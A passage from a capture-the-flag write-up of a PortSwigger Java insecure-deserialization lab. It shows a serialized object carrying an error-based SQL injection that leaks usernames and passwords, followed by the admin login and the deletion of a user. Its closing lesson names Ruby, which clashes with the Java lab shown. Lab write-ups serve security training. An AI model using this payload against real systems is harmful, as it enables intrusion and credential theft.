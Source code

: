 ```shell
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 19:24:31
╰─○ javac Main.java   
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 19:24:52
╰─○ java Main         
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Serialized object: rO0ABXNyACNkYXRhLnByb2R1Y3RjYXRhbG9nLlByb2R1Y3RUZW1wbGF0ZQAAAAAAAAABAgABTAACaWR0ABJMamF2YS9sYW5nL1N0cmluZzt4cHQAgycgVU5JT04gQUxMIFNFTEVDVCBOVUxMLE5VTEwsTlVMTCxDQVNUKChTRUxFQ1QgdXNlcm5hbWV8fCc6J3x8cGFzc3dvcmQgRlJPTSB1c2VycyBMSU1JVCAxIE9GRlNFVCAyKSBBUyBJTlQpLE5VTEwsTlVMTCxOVUxMLE5VTEwtLSAt
Deserialized id: ' UNION ALL SELECT NULL,NULL,NULL,CAST((SELECT username||':'||password FROM users LIMIT 1 OFFSET 2) AS INT),NULL,NULL,NULL,NULL-- -
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 19:24:53
╰─○ python3 exploit.py
Internal Server Error
java.io.IOException: org.postgresql.util.PSQLException: ERROR: invalid input syntax for type integer: "wiener:peter"
```

- Found `administrator` password: `cx84ygpvjtb4tjokq2sz`

**Let's login as user `administrator`!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-8/images/Pasted%20image%2020230112192554.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-8/images/Pasted%20image%2020230112192605.png)

**Nice! I'm user `administrator`, let's go to the admin panel and delete user `carlos`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-8/images/Pasted%20image%2020230112192628.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-8/images/Pasted%20image%2020230112192636.png)

# What we've learned:

1. Exploiting Ruby deserialization using a documented gadget chain